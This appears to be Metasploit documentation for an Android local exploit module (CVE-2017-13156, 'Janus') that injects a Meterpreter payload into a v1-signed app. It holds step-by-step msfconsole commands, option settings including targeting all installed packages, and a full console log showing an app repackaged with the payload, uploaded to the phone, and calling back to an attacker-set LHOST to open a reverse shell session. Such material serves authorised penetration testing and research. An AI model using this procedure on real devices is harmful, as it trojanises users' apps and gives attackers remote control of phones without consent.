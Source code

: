 ## Description

This module exploits CVE-2017-13156 in Android to install a payload into another
application. The payload APK will have the same signature and can be installed
as an update, preserving the existing data.
The vulnerability was fixed in the 5th December 2017 security patch, and was
additionally fixed by the APK Signature scheme v2, so only APKs signed with
the v1 scheme are vulnerable.


## Vulnerable Application

This module will only work on applications that are signed with only the v1 signature scheme. You can verify which signing scheme an APK is signed with using the `apksigner` tool in the Android SDK:

```
$ apksigner verify -verbose notvulnerable.apk
Verifies
Verified using v1 scheme (JAR signing): true
Verified using v2 scheme (APK Signature Scheme v2): true
Number of signers: 1

$ apksigner verify -verbose vulnerableapplication.apk
Verifies
Verified using v1 scheme (JAR signing): true
Verified using v2 scheme (APK Signature Scheme v2): false
Number of signers: 1
```

## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  4. Start a handler with `exploit/multi/handlers`
  5. Do: `use exploit/android/local/janus`
  6. Do: `set session [session]`
  7. Do: `check`
  8. Do: `run`
  9. On the phone, a new screen will ask about installing the updated app, say yes/ok, then open the app.
  10. You should get a new session.

## Options

  **PACKAGE**

  Select a package to infect.  A list of packages can be obtained by running `app_list` on meterpreter.  Using `ALL` will
  loop through all packages and attempt to exploit them until successful.  This can take a while, and cause lots of data to be
  transferred.  Default is `com.phonegap.camerasample`

## Scenarios

### com.phonegap.camerasample

Install [com.phonegap.camerasample](https://github.com/heavysixer/phonegap-camera-sample/blob/master/bin/CameraSample.apk)

An `exploit/multi/handler` was started prior to exploitation.

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                        Information         Connection
  --  ----  ----                        -----------         ----------
  1         meterpreter dalvik/android  u0_a80 @ localhost  192.168.0.176:4444 -> 192.168.0.107:46059 (192.168.0.107)

msf5 exploit(multi/handler) > use exploit/android/local/janus
msf5 exploit(android/local/janus) > set PACKAGE com.phonegap.camerasample
PACKAGE => com.phonegap.camerasample
msf5 exploit(android/local/janus) > set SESSION 1
SESSION => 1
msf5 exploit(android/local/janus) > set LHOST 192.168.0.176
LHOST => 192.168.0.176
msf5 exploit(android/local/janus) > set LPORT 4445
LPORT => 4445
msf5 exploit(android/local/janus) > run

[*] Downloading APK: /data/app/com.phonegap.camerasample-1/base.apk
[*] Decompiling original APK..
[*] Decompiling payload APK..
[*] Locating hook point..
[*] Adding payload as package com.phonegap.camerasample.syerq
[*] Loading /tmp/d20190824-7164-qydvgj/original/smali/com/phonegap/camerasample/CameraSampleActivity.smali and injecting payload..
[*] Rebuilding apk with meterpreter injection as /tmp/d20190824-7164-qydvgj/output.apk
[*] Uploading APK: /sdcard/app.apk
[*] APK uploaded
msf5 exploit(android/local/janus) >
```
Please note that the user will need to manually accept the install prompt on the device (and also open the application) before a new session is opened.

```
[*] Sending stage (72609 bytes) to 192.168.0.107
[*] Meterpreter session 2 opened (192.168.0.176:4445 -> 192.168.0.107:49710) at 2018-10-01 17:44:50 +0800

msf5 exploit(android/local/janus) > sessions 2
[*] Starting interaction with 2...

meterpreter > pwd
/data/user/0/com.phonegap.camerasample/files

```



